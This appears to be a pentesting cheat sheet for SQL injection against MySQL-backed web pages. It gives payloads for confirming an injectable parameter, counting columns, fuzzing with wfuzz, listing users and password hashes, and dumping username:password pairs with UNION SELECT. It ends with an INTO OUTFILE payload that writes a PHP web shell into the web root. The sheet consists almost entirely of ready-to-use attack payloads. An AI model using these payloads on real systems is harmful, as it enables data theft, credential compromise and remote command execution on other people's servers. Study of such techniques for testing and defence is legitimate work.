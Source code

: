 ### First, identify vulnerable parameter by causing true and false conditions

```
or 1=1 vs or 1=2
and 1=2 vs and 1=1
```

### Check column in table query

```sql
' ORDER BY 1 -- - # Without quote if number input  
' ORDER BY 2 -- -  
' ORDER BY 3 -- - 
```

```shell
wfuzz -c -z range,1-10 "http://$TARGET/index.php?id=1 union all select FUZZ" # Modify it if necessary
```

### Get the name of the database by sending

```
?id=1 union all select 1,2,3,4,5 from XXX
Table 'gallery.XXX' doesn't existCould not select category
```

### Find current user

```sql
SELECT user();
SELECT system_user();
```

### List all Users

```
SELECT user FROM mysql.user;
```

### List password hashes

```
SELECT host, user, password FROM mysql.user;
```

### List databases

```
SELECT schema_name FROM information_schema.schemata;
SELECT distinct(db) FROM mysql.db
```

### Extract information

#### To extract the data table from the current database

```sql
1' and 1=2 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database() -- -
```

#### To extract column name from table name we are select

```sql
1' and 1=2 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name ='user'-- -
```

#### Finally extract sensitive data from table user

```sql
1' and 1=2 union select 1,group_concat(username,0x3a,password),3,4 from user-- -
```

### File upload

```sql
' UNION ALL SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // # Invert double quotes and simple quotes if there is errors
```

